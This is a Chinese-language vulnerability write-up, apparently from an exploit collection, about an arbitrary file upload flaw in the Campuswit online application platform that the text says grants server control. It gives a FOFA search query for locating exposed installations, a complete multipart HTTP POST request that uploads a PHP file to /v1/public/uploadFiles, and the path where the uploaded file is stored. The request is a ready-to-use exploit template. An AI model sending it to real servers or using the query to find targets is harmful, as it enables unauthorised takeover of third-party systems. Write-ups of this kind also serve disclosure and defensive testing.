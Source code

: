 # 一、漏洞简介
Campuswit系统是以前沿的产品理念、先进的研发技术，优化用户体验，打造友好的、引导性的、全新的一站式在线申请平台，慧学教育科技（北京）有限公司Campuswit uploadFiles存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+  Campuswit系统

# 三、资产测绘
+ fofa`body="campuswit" `
+ 特征

![](images/1711468752117-862f8288-8c9a-439f-a619-131ce1bd45a5.png)

# 四、漏洞复现
```plain
POST /v1/public/uploadFiles HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 412

--00content0boundary00
Content-Disposition: form-data; name="keep_filename"

1
--00content0boundary00
Content-Disposition: form-data; name="check_file"

1
--00content0boundary00
Content-Disposition: form-data; name="campuswitHash"

campuswit_hash_success
--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: text/php

1234
--00content0boundary00--
```

![](images/1711468771080-c3166e18-e432-49dc-bf17-54484e99df17.png)

文件上传位置

```plain
/uploads/attachments/2024/03/26/1.php
```

![](images/1711468849329-ad31f275-683a-45af-87a1-190c49315e52.png)


